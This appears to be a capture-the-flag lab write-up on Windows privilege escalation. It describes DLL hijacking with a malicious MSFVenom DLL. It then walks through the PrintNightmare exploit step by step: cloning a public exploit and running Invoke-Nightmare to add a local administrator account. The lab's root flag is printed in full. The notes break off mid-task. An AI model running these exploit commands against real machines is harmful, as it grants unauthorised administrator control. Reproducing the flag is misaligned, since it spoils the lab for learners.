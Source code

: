 Now that we have performed all the enumeration and situational awareness, we can move on to privilege escalation. Looking through our enumeration steps, you may notice a unique application connected to a scheduled task on the endpoint. We can attempt a DLL hijack on this application to escalate privileges, then set up persistence on the endpoint.

From the MITRE ATT&CK framework, DLL Hijacking is defined as *"Adversaries may execute their own malicious payloads by hijacking the search order used to load DLLs. Windows systems use a common method to look for required DLLs to load into a program. [[1]](https://docs.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order?redirectedfrom=MSDN) Hijacking DLL loads may be for the purpose of establishing persistence as well as elevating privileges and/or evading restrictions on file execution."* The AT&CK Technique ID is [T1574](https://attack.mitre.org/techniques/T1574/).  

To utilize DLL Hijacking for privilege escalation, we will need to research the application and known vulnerabilities and DLLs and find a DLL not present on the system we have write access to.  

DLL Hijacking can also be used for persistence, as we will see later in the next task. This process is much easier than the previous one as we can use process monitoring tools like ProcMon and ProcessHacker2 to monitor for DLLs and their locations that can take over. The DLL persistence works by running the DLL with the application every time the system restarts or our connection is interrupted. This can be an application we put onto the system or an application already present that we exploit.  

Steps taken to perform DLL hijacking are outlined below.

1. Identify vulnerable application and location
2. Identify applications PID
3. Identify vulnerable DLLs that can be hijacked
4. Use MSFVenom or other payload creation tools to create a malicious DLL
5. Replace the original DLL with the malicious DLL
6. Profit

To begin escalating privileges with DLL Hijacking, we need to identify an application and scheduled task that we can target; this is covered in the previous two tasks. Once we have identified our target, we can use the power of Google to search for potential vulnerable DLLs associated with the application as we can not use tools like ProcMon to make the process easier.  

By googling, `<application> DLL Hijacking`, we can see several articles and blog posts that can lead us in the right direction and research the application for us.

If there is not any research on the application available, say a proprietary application. You can attempt to download the application from the server or find an identical copy on the internet for download that will allow you to search for vulnerable DLLs on your local machine. If you decide to take this approach, skip to the next task and complete the steps with ProcMon before returning to this task and exploiting the vulnerable DLL.


---

# Your job

## Privilege Escalation
Use a new vulnerability called `Print Nightmare` which was released in June 2021.
CVE-2021-34527, or PrintNightmare, is a vulnerability in the Windows Print Spooler that allows for a low priv user to escalate to administrator on a local box or on a remote server. More [info](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html).

- Check if the system is likely to be vulnerable.
	- Open the `services.msc` and check if the “Print Spooler” service is running.
	
		![[Task 43 - WERE TAKING OVER THIS DLL!-20241119134107843.webp]]
		It's vulnerable.
	- Check the updates on the system, this can be done via PowerShell:
		`wmic qfe list`
		
		![[Task 43 - WERE TAKING OVER THIS DLL!-20241119134419904.webp]]
		The results show the last update on this system was done on 11/11/2020 which means it is likely to be vulnerable!

- Download the exploit from github to the attcking machine.
	`git clone https://github.com/calebstewart/CVE-2021-1675`

- Copy the `CVE-2021-1675.ps1` file to PC-FILESRV01. 

> [!tip]
> If you are using xfreerdp with /drive:share,/home/kali/tools/ you can copy directly into the macHine.

- Run the script through a PowerShell window:
	PS C:\Users\watamet\Downloads> `Import-Module .\CVE-2021-1675.ps1`

- Run the exploit.
	PS C:\Users\watamet\Downloads> `Invoke-Nightmare -NewUser "abcuser" -NewPassword "Abc1234!"`
	![[Task 43 - WERE TAKING OVER THIS DLL!-20241119140151649.webp]]

> [!success]
> You have an admin user called **abcuser**. It’s useful to note that the password needs to be complex enough to pass the criteria, otherwise the user won’t be added!

- Confirm the user was added.
	PS C:\Users\watamet\Downloads> `net user abcuser`
	![[Task 43 - WERE TAKING OVER THIS DLL!-20241119140539946.webp]]

- Connect into the machine with that user, this can be either via evil-winrm or RDP.
- Go into the Administrators desktop and get the root flag.


---

## Flag after rooting PC-FILESRV01

- Go into the Administrators desktop and get the root flag.
    
    HOLO{ee7e68a69829e56e1d5b4a73e7ffa5f0}
    
- Submit the user flag on Task 4, question 7.

## DLL Hijacking

You need Procmon.exe (Process Monitor) to get the name of the vulnerable application. 
*"Process Monitor is an advanced monitoring tool for Windows that shows real-time file system, Registry and process/thread activity."*

- Download it from [here](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon).
- Copy the file to the C:\Windows\Task.
- Run the application.
- 

## Answer the questions

> [!question]
> What is the name of the vulnerable application found on PC-FILESRV01?
> 